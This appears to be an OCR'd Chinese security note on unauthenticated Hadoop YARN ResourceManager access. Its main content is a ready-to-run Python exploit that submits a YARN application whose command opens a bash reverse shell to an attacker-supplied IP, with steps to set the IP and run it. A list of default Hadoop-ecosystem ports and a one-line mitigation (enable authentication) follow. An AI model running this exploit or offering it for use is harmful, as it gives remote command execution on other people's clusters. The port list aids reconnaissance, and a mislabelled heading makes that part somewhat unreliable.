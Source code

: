 poc:

    
    #!/usr/bin/env python
     
    import requests
     
    target = 'http://127.0.0.1:8088/'
    lhost = '192.168.220.137' # put your local host ip here, and listen at port 9999
     
    url = target + 'ws/v1/cluster/apps/new-application'
    resp = requests.post(url)
    app_id = resp.json()['application-id']
    url = target + 'ws/v1/cluster/apps'
    data = {
        'application-id': app_id,
        'application-name': 'get-shell',
        'am-container-spec': {
            'commands': {
                'command': '/bin/bash -i >& /dev/tcp/%s/9999 0>&1' % lhost,
            },
        },
        'application-type': 'YARN',
    }
    requests.post(url, json=data)
    修改exploit.py中的反弹IP
    python exploit.py
    
    
        

HDFS

    NameNode	默认端口	50070 
    DataNode	默认端口	50075
    httpfs		默认端口	14000
    journalnode	默认端口	8480 
    
        

YARN （JobTracker ）

    ResourceManager	默认端口	8088 
    Jobtracker		默认端口	50030 
    TaskTracker		默认端口	50060 
    
        

Hue默认端口8080

YARN（JobTracker）

    master			默认端口	6001
    regionserver	默认端口	60030 
    
        

hive- server2默认端口1000

spark- jdbcserver默认端口10003

开启身份验证，防止未经授权用户访问
